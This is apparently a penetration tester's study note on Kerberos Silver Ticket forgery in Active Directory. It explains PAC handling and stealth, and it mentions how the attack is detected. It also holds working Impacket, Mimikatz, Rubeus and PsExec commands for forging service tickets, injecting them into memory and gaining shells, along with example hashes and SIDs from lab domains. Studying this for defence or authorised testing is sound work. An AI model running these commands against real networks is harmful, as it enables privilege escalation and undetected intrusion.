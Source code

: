 # Silver Tickets

Silver tickets are the Ticket Granting Service (TGSs) as part of Kerberos, see [[Active-Directory-Kerberos-Authentication-Defined]] and it one of many techniques of [[Attacking-Kerberos]]. It is a ticket that grants ticket for a specific target, which **DOES NOT requires compromising the KRBTGT**, maybe try [[Mimikatz-Cheatsheet]]. Tim Medin: *"In a Silver Ticket attack, we force a Service ticket with a custom PAC (to escalate privileges). This Service Ticket is forged using the Target LT key (NTLM Service Hash). As we don't have the KDC LT key, we cannot create a valid, complete PAC signature. However, PAC validation is usually disabled, which means there is an opportunity."*

PAC (Privilege Attribute Certificate) is an extension of Kerberos protocol this is transmitted as a summary in the TGT and TGS. It specifies access of an account.

#### Words of Warning

*When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.* - [thehackerrecipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

## Detecting Silver Tickets:

[adsecurity.org](https://adsecurity.org/?p=2011): *The best chance of detecting Silver Tickets is to monitor Windows security events on workstations, servers, and Domain Controllers for [logon/logoff events with anomalies in the domain field including the field being blank or null](https://adsecurity.org/?p=1515).*

#### Considerations

Some Service Accounts will not verify the second signature - SQL servers, but not Web servers! This article is notes on the subject of Silver Tickets:

Server Portion: - Server gets this
- User details
- Session Key (same as Users)
- PAC
- Signed with Target LT key
- Signed with KDC LT key
- Encrypted with service account's NTLM Hash

User Portion: - User gets this
- Validity time
- Session Key (same as Server's)
Encrypted with the TGT session key

#### Requirement:

- Generated TGSs is signed by the machine account of the host we are targeting
- Silver Tickets only have access to the password hash of the machine account of the server we are attacking, therefore only impersonate users on that machine.
- The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
- Forging TGS has no associated TGT, therefore Domain Controller was never contacted
	- This means it is more stealthier as logging occur on the machine not on the DC for Blue Team 
- Permissions are determined through SID
	- Non-existent users must have relevant SIDs, i.e SID that indicated the users to be in host's local administrators group 
 - Machine Account Passwords are usually rotated every 30 days
	 - Even so we can leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account

#### Silver Tickets Benefits

[netwrix](https://blog.netwrix.com/2022/08/31/impersonating-service-accounts-with-silver-tickets/) considers the benefits of Silver Tickets as of 2022 to be: 
- The attacker is not required to authenticate the account to the domain controller to obtain the forged TGS, so they can proceed without creating network traffic and event logs to avoid detection.
- A Silver Ticket can be created for any user account, even fictitious accounts. This allows the attacker to exploit the service account without risking detection, which could result in a password reset and loss of access.
- The Privileged Attribute Certificate (PAC) in the TGS ticket can also be manipulated to elevate the account’s access to Domain In most cases, the PAC is not validated against the domain controller when the TGS is provided.

##### Available Services

Service Type | Service Silver Tickets
--- | ---
WMI | HOST, RPCSS
PowerShell Remoting | HOST, HTTP, OS dependent: WSMAN and RPCSS
WinRM | HOST, HTTP - sometimes just WINRM
Scheduled Tasks | HOST
Windows File Share, also psexec | CIFS
LDAP operations include DCSync | LDAP
Windows Remote Server Administration Tools | RPCSS, LDAP, CIFS
Golden Tickets | krbtgt

[[Rubeus-Cheatsheet]] - ask for all `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`
#### Cheatsheet

[[Impacket-Cheatsheet]]
```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# Hacktricks example:
python ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park -spn cifs/labwws02.jurassic.park stegosaurus
# Export the ccache file as a env variable for later use
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache 
# psexec in!
python psexec.py jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass
```

[[Mimikatz-Cheatsheet]]
```c
//  kerberos::golden # even though it is silver we us the golden method
// /sid:OfCurrentUser
// /target:ServerOfCrackedServiceTicket
// /service:TypeOfService
// /rc4:NTLMHashOfService - different hashes detailed below
// /user:UserThatWillAppearInsecurityLogs
// /id:RIDtoImpersonate
// /ptt # mimikatz will inject into memory

// Optional flags - adsecurity.org

// /groups (optional) – group RIDs the user is a member of (the first is the primary group) ; default: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).

// /ticket (optional) – provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use

// /id (optional) – user RID. Mimikatz default is 500 (the default Administrator account RID).

// /startoffset (optional) – the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
// /endin (optional) – ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).

// /renewmax(optional) – maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).

mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin

// with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

// with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

// with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

// Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
// Obtain a shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

|GID|Group Name|
|---|---|
|512|Domain Admins|
|513|Domain Users|
|518|Schema Admins|
|519|Enterprise Admins|
|520|Group Policy Creator Owners|

## Use cases to Abuse Service Tickets

CIFS = access `C$` and `ADMIN$` SMB Shares if exposed
HOST = Scheduled Tasks Lateral Movement, Arbitrary Commands
HOST + RPCSS = execute WMI on target machine local and remote 
HOST + WSMAN = WinRm access with optional Remote PowerShell Session
LDAP = [[AD-DC-Sync-Attack]]
## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)
[Kerberos and Attacks 101 by Tim Medin](https://www.youtube.com/watch?v=9lOFpUA25Nk)
[iredteam Silver Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
[thehacker.recipes - Silver Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)
[HackTricks Silver tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)
[Hackndo - Golden and Silver tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)
[adsecurity.org](https://adsecurity.org/?p=2011)
[netwrix](https://blog.netwrix.com/2022/08/31/impersonating-service-accounts-with-silver-tickets/)